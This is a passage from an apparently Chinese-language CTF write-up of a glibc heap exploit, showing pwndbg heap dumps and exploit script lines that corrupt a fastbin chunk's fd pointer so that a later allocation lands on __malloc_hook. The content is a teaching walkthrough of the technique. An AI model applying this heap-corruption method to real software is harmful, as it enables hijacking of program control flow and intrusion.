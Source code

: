 ```c
pwndbg> x/60gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000021 #index1
0x555555757030:	0x0000000000000000	0x0000000000000000
0x555555757040:	0x0000000000000000	0x0000000000000021 #index2
0x555555757050:	0x0000000000000000	0x0000000000000000
0x555555757060:	0x0000000000000000	0x0000000000000021 #index3
0x555555757070:	0x0000000000000000	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000071 #index4（fastbin）
0x555555757090:	0x00007ffff7dd1aed	0x0000000000000000
    			#更改index4的fd指针
.....（省略内容均为空）
0x5555557570f0:	0x0000000000000000	0x0000000000000021 #index5（unsortedbin）
0x555555757100:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x555555757110:	0x0000000000000020	0x0000000000000090 #index6
.....（省略内容均为空）
0x5555557571a0:	0x0000000000000000	0x0000000000020e61 #top_chunk
.....（省略内容均为空）
0x5555557571d0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

```c
pwndbg> x/16gx 0x00007ffff7dd1aed
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92ea0000000	0xfff7a92a7000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b2d <main_arena+13>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b3d <main_arena+29>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b4d <main_arena+45>:	0x5555757080000000	0x0000000000000055
0x7ffff7dd1b5d <main_arena+61>:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

> 此时程序的结构体未发生改变
>

### 2-4、控制__malloc_hook
```c
#这时候再去申请两个,第一个是给前面free的index4,第二个就会分配到malloc_hook处
alloc(0x60)#index4
alloc(0x60)#index7
```

```c
pwndbg> x/16gx 0x00007ffff7dd1aed
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92ea0000000	0xfff7a92a7000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b2d <main_arena+13>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b3d <main_arena+29>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b4d <main_arena+45>:	0x2ea0000000000000	0x0000000000fff7a9
0x7ffff7dd1b5d <main_arena+61>:	0x0000000000000000	0x0000000000000000
pwndbg> 
```
